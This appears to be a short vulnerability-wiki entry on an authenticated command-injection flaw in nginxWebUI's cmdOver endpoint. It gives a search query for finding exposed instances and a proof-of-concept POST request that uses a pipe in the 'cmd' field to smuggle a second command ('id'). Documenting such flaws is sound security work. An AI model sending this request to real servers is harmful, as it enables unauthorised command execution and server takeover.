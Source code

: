 # nginxWebUI cmdOver background command execution vulnerability

## Vulnerability Description

There is a command execution vulnerability in the nginxWebUI background. After the attacker logs into the background, he can execute any command to obtain server permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">nginxWebUI </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="nginxwebui"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656223039336-00b1d204-6cba-4178-b152-fa38c63a72c1.png)

Verify the request package

```php
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656223447202-743e2c21-d042-4811-b135-d67b4155791e.png)